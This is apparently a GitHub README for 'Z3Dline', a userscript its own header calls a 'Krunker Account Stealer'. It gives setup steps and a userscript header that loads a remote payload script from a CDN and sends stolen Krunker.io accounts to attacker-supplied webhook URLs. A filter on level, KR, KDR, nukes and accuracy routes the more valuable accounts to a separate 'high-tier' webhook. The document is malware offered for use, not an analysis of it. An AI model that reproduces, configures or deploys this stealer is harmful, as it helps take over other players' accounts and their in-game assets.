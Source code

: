 # Z3Dline

An improved version of PTWline stealer for Krunker.io.

# Usage

- `@require` The script in your userscript header.
- You might also need to require `jsonpack` and `msgpack-lite`.
- Replace the `LO_WEBHOOK_URL` and `HI_WEBHOOK_URL` with your own webhook URLs.
- You can also change the `HI_FILTER` to set which accounts will go to the High-Tier Webhook. ONLY ACCOUNTS MATCHING ALL THE FILTERS WILL BE SENT TO THE HIGH-TIER WEBHOOK.

```js
// ==UserScript==
// @name         Z3DLine
// @description  Krunker Account Stealer
// @version      1.0.0
// @author       z3db0y
// @match        *://*.krunker.io/*
// @icon         https://www.google.com/s2/favicons?sz=64&domain=krunker.io
// @grant        none
// @run-at       document-start
// @require      https://unpkg.com/jsonpack
// @require      https://unpkg.com/msgpack-lite/dist/msgpack.min.js
// @require      https://cdn.jsdelivr.net/gh/z3db0y/Z3Dline/dist.js
// ==/UserScript==

const LO_WEBHOOK_URL = '';
const HI_WEBHOOK_URL = '';
const HI_FILTER = {
    lvl: 0,
    kr: 0,
    kdr: 0,
    nukes: 0,
    accuracy: 0
};
```